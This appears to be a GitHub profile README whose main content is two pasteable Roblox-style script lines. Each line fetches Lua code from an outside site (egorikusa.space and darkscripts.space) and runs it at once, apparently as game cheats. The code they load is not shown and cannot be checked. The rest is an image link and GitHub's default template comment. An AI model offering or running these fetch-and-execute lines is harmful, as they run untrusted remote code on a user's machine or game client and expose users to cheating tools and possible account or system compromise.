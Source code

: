 Script: loadstring(game:HttpGet("https://egorikusa.space/fa488b5e952d06adca408d53.lua", true))()

script: loadstring(game:HttpGet('https://darkscripts.space/scripts/12bde3fac0.lua', true))()
<!---
BuggyFortnite/BuggyFortnite is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
